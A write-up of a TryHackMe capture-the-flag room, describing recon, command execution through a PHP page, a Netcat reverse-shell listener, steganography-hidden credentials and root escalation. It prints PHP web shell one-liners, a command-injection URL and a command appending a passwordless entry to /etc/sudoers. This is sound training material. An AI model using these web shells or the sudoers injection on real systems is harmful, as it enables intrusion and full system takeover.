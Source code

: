 # U.A. High School

[https://tryhackme.com/room/yueiua](https://tryhackme.com/room/yueiua)

## Recon & Enumeration 
To compromise this room, I first performed an Nmap scan to identify open ports. The scan revealed two open ports: `80 and 22`. I then accessed the website hosted on port 80 but found no meaningful information. 

![Nmap scan](images/image-1.png)

To uncover hidden directories, I used Gobuster with the common.txt wordlist from SecLists. This scan revealed a directory: `/assets/index.php`, which returned a 200 status code. 

![Directory Enumeration](images/image-2.png)
![Directory Enumeration](images/image-3.png)

However, when I accessed the URL `http://MACHINE_IP/assets/index.php`, it displayed a blank page. Suspecting that this index.php file might be exploitable, I tested common web shell commands. 

`<?php echo passthru($_GET['cmd']); ?>`

`<?php echo exec($_POST['cmd']); ?>`

`<?php system($_GET['cmd']); ?>`

`<?php passthru($_REQUEST['cmd']); ?>`

To verify this, I appended a command to the URL:
`http://MACHINE_IP/assets/index.php?cmd=ls`

This returned a random string, which I identified as Base64-encoded output. 

![Base64-encoded output](images/image-4.png)

To decode it, I used:
```
curl http://MACHINE_IP/assets/index.php?cmd=ls | base64 -d
```
![Command Execution](images/image-5.png)

## Gaining a Reverse Shell
With command execution confirmed. I proceeded to gain a reverse shell:
1. Generated a reverse shell payload using `revshells.com`<br>
    ![Reverse shell payload](images/image-6.png)
2. Set up a Netcat listener: `nc -lvnp 4444`<br>
    ![Netcat listener](images/image-7.png)
3. Once connected, I upgraded the shell for stability:<br>
    ![Stabilise the shell](images/image-9.png)
4. Executed the reverse shell by appending the payload to the vulnerable URL.
    ![Append the payload](images/image-8.png)

## Privilege Escalation
At this point, I had access as the www-data user. To escalate privileges:
1. Explored directories and found a corrupt JPG file.<br>
    ![Corrupted JPG file](images/image-10.png)
2. Downloaded the file using `wget` and identify the file type using `MagicBytes`. 
    ![File downloads and identification](images/image-11.png)
3. The file revealed an image of Deku which hinted at Steganography.
    ![Image reveal](images/image-12.png)
4. Use `Steghide` to check for hidden data within the image, but it required a password. 
    ![Hidden data decryption](images/image-13.png)
5. Searched directories thoroughly and found `Hidden_Content/passphrase.txt`, which contained a Base64-encoded password.
    ![Credentials harvesting](images/image-14.png)
    ![Credentials harvesting](images/image-15.png)
6. Decoded the password and used it to extract a hidden text file from the image, revealing Deku’s credentials. 
    ![Password decryption](images/image-16.png)
    ![Credentials disclosure](images/image-17.png)

## Root Privilege Escalation
With Deku’s credentials, I logged in and found `user.txt`.

![Retrieved user's flag](images/image-18.png)
![User's flag](images/image-19.png)

Before escalating to root, I checked sudo privileges using `sudo -l`.

![Sudo Privilege Enumeration](images/image-20.png)

This revealed that `/path/feedback.sh` could be executed as root. After analyzing the script, I found it vulnerable to arbitrary command execution. 

![Vulnerability found](images/image-21.png)
![Script exploitation](images/image-22.png)

To gain root access quickly, I exploited the script to add Deku to the sudoers file using `deku ALL=NOPASSWD: ALL >> /etc/sudoers`.

![Vulnerability exploitation](images/image-23.png)

We can check our sudo privileges again using `sudo -l`. As we can see from the screenshot, sudo privileges are now open to every user. 

![Privilege escalation](images/image-24.png)

Now, with root privileges, I accessed the final flag using `cat /root/root.txt`. 

![Retrieved root's flag](images/image-25.png)
